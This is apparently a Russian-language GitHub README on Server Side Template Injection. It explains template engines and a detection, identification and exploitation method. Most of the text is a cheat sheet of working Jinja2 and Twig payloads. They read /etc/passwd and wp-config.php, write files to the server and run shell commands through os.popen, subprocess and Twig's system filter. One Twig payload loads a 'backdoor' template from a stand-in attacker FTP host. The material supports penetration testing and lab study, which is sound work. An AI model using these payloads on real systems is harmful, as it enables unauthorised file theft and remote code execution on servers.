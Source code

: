 # SSTI - Server Side Template Injection
Server Side Template Injection – это уязвимость (то есть вид атаки на шаблонизаторы), при которой непосредственная вставка пользовательских данных в шаблон может спровоцировать критическую уязвимость в системе.

Template Injection может возникнуть, если пользовательские данные вставляются в шаблон без какой-либо валидации (или с плохой валидацией)

Веб-шаблон – это некоторый тематический html документ, который не является полноценной html страницей, а лишь оболочкой для каких-либо данных. Для ассоциативного ряда можно представить вебшаблон как бланк принятия посылки с почты. Бланк имеет общую структуру (графу ФИО, телефон, получатель, отправитель и так далее).Таких бланков много и все они одинаковые для каждого человека, который будет ее заполнять. Но каждый заполняет ее своими данными.

Шаблонизатор – это программное обеспечение, позволяющее использовать шаблоны для генерации конечных html-страниц. Другими словами, именно шаблонизатор занимается отделением представления конечного результата от исполняемого кода, который в свою очередь заполняет определенными данными шаблон 

|    Среда        | Описание                      
|----------------|-------------------------------|
|Java|Apache, Velocity, FreeMarker, Histone  |    
|PHP  |BH, Fenom, Smarty, Twig, TinyButStrong, XTemplate, Histone, Separate, Blade, Sigma, PHPTAL, Facebook, XHP, dwoo, Blitz, templates | 
|Python | Genshi, Kid, Jinja2, Mako |
|Perl|Template, Toolkit, HTML::Template|
|Ruby |Ruby, Erubis, Haml, Slim, Liquid |
|JS |bem-xjst, BH, Handlebars, Underscore, pug, Histone |


При тестировании веб приложения уязвимости SSTI следует
придерживаться следующего алгоритма:
- Обнаружение
- Идентификация
- Эксплуатация: Чтение --> Исследование --> Атака

 ### Обнаружение
 ```
{{7*7}}
${7*7}
<%= 7*7%>
${{7*7}}
#{7*7}
*{7*7}
```

### Идентификация

![Идентификация](https://github.com/user-attachments/assets/eb6fc930-4d4a-4bae-9455-683fb8b2d622)



### Эксплуатация (чтение)

В документации есть ключевые части, которые следует просмотреть с точки зрения эксплуатации уязвимости:
- Раздел «For Template Authors» описывает базовый синтаксис;
- «Security Considerations» - есть огромный шанс, что разработчики веб приложения не читали данный раздел;
- Список встроенных функций, методов и переменных;
- Список дополнений и расширений — некоторые из них могут быть включены по умолчанию.

### Эксплуатация (Исследование)
Многие шаблонизаторы имеют объект «self», который предоставляет информацию обо всех других объектах и методах. Если же объекта self нет, то можно попробовать профаззить объекты с помощью инструментов Burp Suite или Wfuzz и словарей с готовыми полезными нагрузками (Seclists, FuzzDB)

### Эксплуатация (Атака)

Допустим, было обнаружено веб приложение, уязвимое к SSTI. Также было обнаружено, что приложение использует шаблонизатор Jinja2. Тогда можно проэксплуатировать уязвимость следующим образом: например, добьемся чтения локального файла сервера. Так как шаблонизатор написан на Python, будем использовать функции mro и subclasses ().


### Суть SSTI заключается в том, чтобы использовать методы языка, на которых написан шаблонизатор, в своих целях.

Краткое описание классов, методов и атрибутов:
```
__class__ возвращает объект, которому принадлежит тип
__mro__ возвращает кортеж, содержащий базовые классы, унаследованные объектом, и метод анализируется в порядке кортежей во время синтаксического анализа.
__base__ возвращает базовый класс, унаследованный этим объектом
// __base__ и__mro__ используется для поиска базового класса.
__subclasses__ Каждый новый класс сохраняет ссылки на подклассы. Этот метод возвращает список ссылок, которые все еще доступны в классе.
__init__ метод инициализации класса
__globals__ Ссылка на словарь, содержащий глобальные переменные функции.
```
#### Атрибут __mro__ в Python позволяет «двигаться» по древу и наследовать вверх к суперклассу, а функция subclasses () позволяет «двигаться» вниз к наследникам. Таким образом, можно «выбраться» из одного класса и воспользоваться другим.
```
{''.__class__}}
{{''.__class__.__mro__}}
{{''.__class__.__mro__[2]. Subclasses__()}}
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```

# [!Все payloads](https://github.com/LostErr0r/Bestiary/tree/main/payloads/SSTI)

# Cheet shet
### Jinja2

#### Получение списка классов:
```
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```
#### Чтение файлов с удаленного сервера:
```
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
#### Запись в файл на удаленном сервере:
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt','w').write('Hello here !') }}
```
#### Выполнение файлов на удаленном сервере:
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
#### Для Python 3
 #### Чтение файлов с удаленного сервера:
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}
```
#### Выполнение файлов на удаленном сервере:
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("_
_import__('os').popen('id').read()")}}
{{''.__class__.__mro__[1].__subclasses__()[280]('id', shell=True, stdout=-1).communicate()}}
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('id').read()}}
```

### Twig

#### Чтение файлов с удаленного сервера:
```
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{include("wp-config.php")}}
```
#### Выполнение файлов на удаленном сервере:
```
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{[0]|reduce('system','id')}}
{{['id']|map('system')|join}}
{{['id',1]|sort('system')|join}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
```
### Практика
- [portswiger](https://portswigger.net/web-security/all-labs#server-side-template-injection)


### Ссылки
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2
- https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti
- https://book.hacktricks.xyz/todo/references
